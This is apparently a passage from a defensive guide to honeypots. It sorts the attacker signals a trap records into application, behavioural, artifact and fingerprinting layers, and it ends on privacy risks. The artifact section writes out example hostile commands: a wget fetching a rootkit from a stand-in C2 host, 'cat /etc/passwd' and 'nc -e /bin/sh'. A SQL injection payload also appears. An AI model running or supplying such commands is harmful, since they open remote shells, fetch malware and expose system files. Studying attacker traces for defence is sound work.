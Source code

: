 ### Application Layer (What Are They Asking For?)
```
Request:          GET /api/v1/products?limit=9999
Headers:          User-Agent: python-requests/2.28.1
                  Accept: application/json
                  (Missing: typical browser headers)
Payload:          { "query": "' OR 1=1--" }  ← SQL injection
Cookies:          (None - bot didn't handle session)
CSRF token:       (Missing - didn't parse HTML)
```

### Behavioral Layer (How Are They Acting?)
```
Request pattern:  Sequential product IDs (1,2,3,4...)
Frequency:        100 requests/minute (not human)
Traversal:        No legitimate browsing (direct API hits)
Login attempts:   Failed × 1000, then Success × 1
Time-of-day:      3 AM local time (off-hours)
```

### Artifact Layer (What Did They Leave Behind?)
```
Uploaded file:    exploit.csv (contains formula injection)
Script executed:  wget http://c2.evil.com/rootkit.sh
Malware binary:   rootkit.sh (SHA256: abc123...)
Shell commands:   whoami, cat /etc/passwd, nc -e /bin/sh
C2 communication: DNS queries to evil.com
Process tree:     apache2 → bash → wget → nc
```

### Fingerprinting Layer (Who Are They Really?)
```
Browser:          Claims "Chrome 119" but...
Canvas FP:        Missing (headless browser)
WebGL:            Not rendered (automation)
TLS client hello: Python's ssl library (not browser)
Timezone:         UTC (not user's local)
Screen resolution: Generic 1920×1080 (not real device)
Plugins:          None (real browsers have several)
```

---

## Legal and Containment: Don't Get Burned by Your Own Traps

### Privacy Landmines

**The risk**: Your honeypot might accidentally capture **real user data**

**Scenario**:
- You set up fake login page at `secure-login.yourbank.com`
- Real user typos and lands there
- Enters real username and password
- You just logged legitimate credentials
